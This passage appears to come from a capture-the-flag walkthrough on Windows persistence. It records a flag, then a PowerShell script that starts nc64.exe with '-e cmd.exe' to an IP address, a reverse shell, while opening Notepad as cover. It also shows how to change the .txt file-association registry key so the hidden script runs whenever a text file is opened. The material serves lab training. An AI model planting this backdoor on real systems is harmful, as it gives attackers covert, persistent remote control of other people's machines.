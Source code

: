 * Insert flag6 here

    `THM{TXT_FILES_WOULD_NEVER_HURT_YOU}`

    * Create ps1 script save to `C:\Windows\backdoor2.ps1`

        ```
        Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.9.251.6 6666"
        C:\Windows\system32\NOTEPAD.EXE $args[0]
        ```

    * Open `regedit` and .txt file ProgID

        ![task3-registry](./images/task3-registry.png)

    * Search for a subkey for the corresponding ProgID 

        ![task3-registry-progid.png](./images/task3-registry-progid.png)

    * Change the registry key to run our backdoor script

        ```
        powershell.exe -windowstyle hidden C:\Windows\backdoor2.ps1 %1
        ```
